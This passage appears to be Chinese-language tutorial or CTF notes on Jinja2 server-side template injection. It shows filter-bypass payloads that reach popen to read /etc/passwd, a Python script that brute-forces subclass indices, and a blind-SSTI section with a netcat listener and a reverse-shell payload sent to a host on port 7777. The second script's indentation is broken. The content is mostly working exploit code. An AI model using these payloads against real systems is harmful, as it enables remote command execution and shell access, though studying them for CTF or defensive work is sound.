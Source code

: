 `{{}}`被过略,尝试`{%%}`

判断语句是否能正确执行

```php
{% if 2>1 %}benben{%endif%}
```

```php
{%if "".__class__%}benben{%endif%}
```

有回显说明<font color=red>**"".\_\_class\_\_**</font>有内容

```php
{% if "".__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]("cat /etc/passwd").read() %}benben{% endif %}
```

查询脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":'{% if "".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("cat /etc/passwd").read() %}benben{% endif %}'}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if 'benben' in str(response.content):
                print(i)
    except:
        pass

```

# 6.无回显SSTI

## 1.反弹shell

192.168.204.149 监听7777端口

nc -lvp 7777

```python
import requests
url=input('请输入URL:')
for i in range(500):
     try:
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('netcat 192.168.1.161 7777 -e /bin/bash').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```
